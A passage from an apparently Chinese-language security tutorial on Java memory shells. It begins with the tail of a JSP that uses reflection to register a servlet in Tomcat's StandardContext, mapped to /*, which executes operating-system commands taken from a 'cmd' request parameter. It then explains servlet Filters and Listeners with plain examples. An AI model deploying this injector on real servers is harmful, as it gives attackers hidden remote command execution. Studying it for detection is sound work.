String osTyp = System.getProperty("os.name");
if (osTyp != null && osTyp.toLowerCase().contains("win")) {
isLinux = false;
}
String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
Scanner s = new Scanner(in).useDelimiter("\\A");
String output = s.hasNext() ? s.next() : "";
response.getWriter().write(output);
response.getWriter().flush();
}
}
};
// 1. 获取 standardContext 上下文
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
StandardContext standardContext = (StandardContext) req.getContext();
// 2. 创建 Wrapper 对象
Wrapper wrapper = standardContext.createWrapper();
// 3. 设置 servlet 名称
wrapper.setName("servletCommand");
// 4. 设置 servlet 对象
wrapper.setServlet(servlet);
// 5. 装载顺序
wrapper.setLoadOnStartup(1);
// 6. 把 wrapper 添加到 standardContext
standardContext.addChild(wrapper);
// 7. 处理映射
standardContext.addServletMappingDecoded("/*", "servletCommand");
out.println("servletCommand Servlet Add Success !");
%>
|
访问后就注入成功了。
[^1]: ## 监听器和过滤器
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73 | ### 过滤器 Filter
过滤器就是在客户端和服务端之间添加了一个滤网，客户端的请求响应去服务端，先要走过滤器，能过去了才发送的服务端交给 Servlet 处理，响应通用也可以实现过滤器，不过通常都是过滤请求。
```java
package com.demo.ex.filter;
import javax.servlet.*;
import java.io.IOException;
public class Test implements Filter {
@Override
public void init(FilterConfig filterConfig) throws ServletException {
Filter.super.init(filterConfig);
}
@Override
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
// 实现具体的 Filter
}
@Override
public void destroy() {
Filter.super.destroy();
}
}
```
之后需要配置 Filter 对应的路径或者对应的路由，可以在 web.xml 中配置，也可以使用注解实现。
```xml
<filter>
<filter-name>test</filter-name>
<filter-class>com.demo.ex.filter.Test</filter-class>
</filter>
<filter-mapping>
<filter-name>test</filter-name>
<url-pattern>/*</url-pattern>
</filter-mapping>
```
```java
@WebFilter(urlPatterns = "/*")
```
### 监听器 Listener
监听器就是监听某个域对象的的状态变化的组件。
* 事件源：被监听的对象 (三个域对象 request、session、servletContext)
* 监听器：监听事件源对象事件源对象的状态的变化都会触发监听器
* 注册监听器：将监听器与事件源进行绑定
* 响应行为：监听器监听到事件源的状态变化时所涉及的功能代码（程序员编写代码）
简单来说就是程序会监听某个行为，然后在这个行为发生的时候去做对应的处理。比如生病事件，处理就是吃药看医生这样。
分类：
1. 按照被监听的对象划分：ServletRequest域、HttpSession域、ServletContext域
2. 按照监听的内容分：监听域对象的创建与销毁的、监听域对象的属性变化的：

创建监听器去实现要监听对象的接口比如 ServletContextListener ，实现器方法即可。
配置：
```xml
<listener>
<listener-class>com.example.MyServletContextListener</listener-class>
</listener>
```

|
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}